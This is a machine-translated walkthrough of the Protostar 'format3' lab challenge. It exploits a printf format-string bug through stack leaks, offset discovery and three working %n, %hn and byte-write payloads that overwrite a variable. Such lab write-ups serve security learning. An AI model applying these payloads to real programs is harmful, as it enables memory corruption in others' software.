


# [ExpDev]漏洞利用练习|原恒星|格式 3

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83?source=collection_archive---------0----------------------->


# 格式 3(格式字符串基本 3)

该挑战的目标是利用格式字符串漏洞将任意字节写入进程内存，并打印出获胜的语句。

*   链接:[https://exploit-exercises.lains.space/protostar/format3/](https://exploit-exercises.lains.space/protostar/format3/)



## 注意事项

*   `**char buffer[512]**`:设置缓冲区大小为 512。
*   `**fgets(buffer, sizeof(buffer), stdin)**`:该函数获取用户提供的输入。并且它将缓冲区大小限制为 512。我们最多可以输入 511 个字节，因为 C 总是在末尾添加`0x00`作为字符串结束符。
*   `**printf(string);**`:这是这段代码中易受攻击的函数。`printf()`将*而不是*检查提供的输入是否是预期的格式字符串。这是因为它被编码为在格式参数应该在的位置接受任何输入值。因此，我们所能做的只是验证我们是否可以泄漏内存地址，并且还可以将任意值写入堆栈(**【读取】** `%p`或`%x` → **【写入】** `%n`)。
*   `**if(target == 0x01025544) {**`:变量`target`是我们需要在堆栈中找到的。然后，利用一个格式字符串漏洞，我们将把 4 个字节覆盖到`target`以匹配`0x01025544`来打印出获胜的语句。

# 拆解(GDB)

让我们反汇编二进制文件，看看在 ASM 级别做了什么。这和`Format2`很像。唯一不同的是`cmp`值:

```
**$ gdb -q format3**
Reading symbols from /opt/protostar/bin/format3...done.
**(gdb) set disassembly-flavor intel
(gdb) disassemble vuln**
```



# 剥削

## 初步侦察

让我们提供一些随机的字符串来观察程序的行为:

```
**$ python -c 'print "AAAA"' | /opt/protostar/bin/format3** 
AAAA
target is 00000000 :(
```

但是如果我们输入格式字符串参数(`%08x`)，我们会得到一些有趣的输出:

```
**$ python -c 'print "AAAA" + "|%08x" * 2' | /opt/protostar/bin/format3** 
AAAA|00000000|bffff590    **<-- Leaking memory address**
target is 00000000 :(***### Format String Explanation
"%08x"*** *= "%x" is a Format String parameter of the hexdecimal 
         representation. 
         The number "08" is the minimum value for "width field."
         This will pad the output of the "%x" specified to 8
         characters, which is equal to 4 bytes long.*
```

## 寻找偏移

接下来，我们需要找到在堆栈上可以看到我们提供的输入的偏移量。如果我们尝试添加几个更多的`%x`，我们可以在第 12 个位置找到偏移量。

```
**$ python -c 'print "AAAA" + "|%08x" * 12' | /opt/protostar/bin/format3** 
AAAA|00000000|bffff590|b7fd7ff4|00000000|00000000|bffff798|0804849d|bffff590|00000200|b7fd8420|bffff5d4|**41414141    <-- chr(0x41) = "A"**
target is 00000000 :(
```

## 寻找“目标”变量地址

我们将使用`objdump`来查找`target`的地址:

```
**$ objdump -t /opt/protostar/bin/format3 |grep target**
**080496f4** g     O .bss 00000004              target
```

找到的地址是`0x080496f4`。把这个转换成 little-endian 格式= `\xf4\x96\x04\x08`。

现在，将提供的输入更改为`target`地址。但是这次我们来看看能否用`%n` (= *将字符写入指针*)在内存中写点东西。

```
**$ python -c 'print "\xf4\x96\x04\x08" + "%12$08n" * 12' | /opt/protostar/bin/format3** 
��
target is 00000004 :(    **<-- It wrote "4" at the "target" location*****### Format String Explanation
"%4$08n"*** *= Directly access the 4th parameter on stack with "4$" and 
           write the address* (\xe4\x96\x04\x08**)** *there with "%08n"*
```

太好了。我们可以看到值`0x00000004`已经被写入`target`地址位置。


有几种不同的方法来解决这一挑战。我将介绍 3 种不同的方法:

*   4 字节写入
*   2 字节短写
*   1 字节写入

## 利用解决方案#1 (4 字节写入)

第一种解决方案是写入 4 个字节来填充宽度字段。既然我们知道要写什么值，我们只需要计算正确的宽度字段并用`%n`写它们。(关于计算宽度长度的更多细节，请参见`[Format 2](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-format-2-73ef08011a8c)` [挑战](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-format-2-73ef08011a8c)。)

```
**[Calculating Width Fields]****$ gdb -q /opt/protostar/bin/format3**
  Reading symbols from /opt/protostar/bin/format3...done.
**(gdb) print 0x01025544 - 0x04** 
  $1 = 16930112                   **<-- Width Fields*****### Calculation Explanation***
"**0x01025544"** = The target value to write **"0x04"** = The current output value
```

宽度字段计算到`16930112`。让我们将它添加到我们的有效载荷中:

```
**$ python -c 'print "\xf4\x96\x04\x08" + "%16930112x%12$08n"' | /opt/protostar/bin/format3**...(snip for A LOT OF white spaces)... 0
**you have modified the target :)     <-- Winning Statement!**
```

一旦我们运行了更新的有效负载，我们就可以看到获胜的语句。让我们做下一个方法。

## 利用解决方案#2 (2 字节写入)

第二个解决方案是使用短写，更具体地说是使用`%hn`格式字符串参数的 2 字节写操作。

为了更清楚，让我快速解释一下这是如何工作的。首先，让我们在 gdb 中搜索“目标”地址:

```
**(gdb) print &target**
  $1 = (int *) 0x80496f4
```

然后，检查十六进制的`target`地址(在。bss 段，其指未使用的数据段，并且存储在该段中的数据被设置为零)。将其分解为每个字节，显示每个地址:

```
**(gdb) x/wx 0x80496f4**
  0x80496f4 <target>:    0x00**00**|00**00**
                              ⬇
       0x00           **00**             00             **00**
       ------------------------------------------------------
       0x80496**f**7      **0x80496f6**      0x80496f5      **0x80496f4**
```

从上面的表示中，显然现在`target`没有任何值被写入；然而，4 字节十六进制位置(`0x00000000`)是我们需要替换为`0x01025544`的地方。

所以对于 2 字节写方法，我们需要利用地址:`0x80496f4`和`0x80496f6`。

让我们验证我们是否可以在这些`0x80496f6`和`0x80496f4`地址上写入任意值:

```
$ python -c 'print 
"\xf4\x96\x04\x08" +     **# Little-Endian format of 0x80496f4**
"\xf6\x96\x04\x08" +     **# Little-Endian format of 0x80496f6**
"%12$hn" + "%13$hn"'     **# Writing 2 bytes in each offset location**
| /opt/protostar/bin/format3���
target is **00080008** :(
```

我们可以看到，我们的尝试在每个地址位置上写入了`0x0008`值。现在，我们只需要计算宽度字段，以便输出我们想要的值。

```
0x01025544    **<-- Desired value & divide this into 2**
    ⬇ 0x0102      **<-- We will write this on address starting from "f4"**
  0x5544      **<-- We will write this on address starting from "f6"**
    ⬇**[Width Calculation #1: "f4"]
____________________________________________________________________** *# Written value was "0008." In order to calculate the width field, we need to subtract "0008" from our desired value = "0x0102"*(gdb) print 0x0102 - 0x08
  $1 = **250****>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"%250x%13$hn" +         **# Adding Width = 250**
"%12$hn"' 
| /opt/protostar/bin/format3
��                                                                                                                                                                                                                                                         0
target is **0102**0102 :(    **<-- First 2 bytes written correctly** **[Width Calculation #2: "f6"]
____________________________________________________________________***# From the above calculation as you can see the second 2 byte location is also filled with "0102" which means we need to subtract that value from our desired value.*(gdb) p 0x5544 - 0x0102
  $7 = **21570****>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"%250x%13$hn" +         **# Adding Width = 250** 
"%21570x%12$hn"'       ** # Adding Width = 21570**
| /opt/protostar/bin/format3
��                                                                                                                                                                                                                                                         0
...(snip for A LOT OF white spaces)...
                                                       bffff590
**you have modified the target :)    <-- Winning Statement!**
```

太好了。第二种方法也成功了，我们可以看到我们的胜利宣言！

## 利用解决方案#3 (1 字节写入)

最后一种解决方案是 1 字节写入。执行这种利用的流程非常类似于 2 字节写方法，但是我们将利用地址位置的每个字节。

```
**### Examine the "target" address in hex
(gdb) x/wx 0x80496f4**
  0x80496f4 <target>:    **0x00|00|00|00**
                              ⬇
       **0x00**           **00**             **00**             **00**
       ------------------------------------------------------
       **0x80496f7**      **0x80496f6**      **0x80496f5**      **0x80496f4**
```

让我们向每个地址位置写入一些值:

```
$ python -c 'print 
"\xf4\x96\x04\x08" +     **# Little-Endian format of 0x80496f4**
"\xf5\x96\x04\x08" +     **# Little-Endian format of 0x80496f5**
"\xf6\x96\x04\x08" +     **# Little-Endian format of 0x80496f6** 
"\xf7\x96\x04\x08" +     **# Little-Endian format of 0x80496f7** 
"%12$n" +                **# Writing into 0x80496f4**
"%13$n" +                **# Writing into 0x80496f5** 
"%14$n" +                **# Writing into 0x80496f6** 
"%15$n"'                 **# Writing into 0x80496f7**
| /opt/protostar/bin/format3�����
target is **10101010** :(
```

让我们根据目标值`0x01025544`进行正常的宽度场计算过程:

```
**[Width Calculation #1: "f4"]
____________________________________________________________________****(gdb) print 0x44 - 0x10**
  $1 = 52**>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf5\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"\xf7\x96\x04\x08" + 
**"%52x%12$n"** +          **# Adding Width = 52**
"%13$n" + 
"%14$n" + 
"%15$n"' 
| /opt/protostar/bin/format3����                                                   0
target is 444444**44** :( **[Width Calculation #2: "f5"]
____________________________________________________________________****(gdb) p 0x55 - 0x44**
  $8 = 17**>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf5\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"\xf7\x96\x04\x08" + 
**"%52x%12$n"** +          **# Adding Width = 52** 
**"%17x%13$n"** +          **# Adding Width = 17**
"%14$n" + 
"%15$n"' 
| /opt/protostar/bin/format3����                                                   0         bffff590
target is 5555**5544** :( **[Width Calculation #3: "f6"]
____________________________________________________________________****(gdb) print 0x02 - 0x55**
  $9 = -83*# Holdup... Negative output? Obviously, we cannot use this negative padding. In this case, however, there is a trick that we overflow into the next byte to get our desired value on the target location. Since we have a control on stack, we can still overwrite the overflowed value. Example below:***(gdb) print 0x102 - 0x55**
  $10 = **173****>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf5\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"\xf7\x96\x04\x08" + 
**"%52x%12$n"** +          **# Adding Width = 52** 
**"%17x%13$n"** +          **# Adding Width = 17**
**"%173x%14$n"** +         **# Adding Width = 173**
"%15$n"' 
| /opt/protostar/bin/format3����                                                   0         bffff590                                                                                                                                                                     b7fd7ff4
target is 02**025544** :( **[Width Calculation #4: "f7"]
____________________________________________________________________****(gdb) p 0x01 - 0x02**
  $11 = -1*# Same thing***(gdb) p 0x101 - 0x02**
  $12 = **255****>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf5\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"\xf7\x96\x04\x08" + 
**"%52x%12$n"** +          **# Adding Width = 52** 
**"%17x%13$n"** +          **# Adding Width = 17**
**"%173x%14$n"** +         **# Adding Width = 173**
**"%255x%15$n"**'          **# Adding Width = 255**
| /opt/protostar/bin/format3����                                                   0         bffff590                                                                                                                                                                     b7fd7ff4                                                                                                                                                                                                                                                              0
**you have modified the target :)    <-- Winning Statement!**
```

完美！它还成功地在`target`上写下了我们想要的值，并打印出了获胜声明。

感谢阅读！

## 下一个挑战:

*   [**格式 4**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-4-e2907b4716d1) :格式字符串漏洞利用:得到

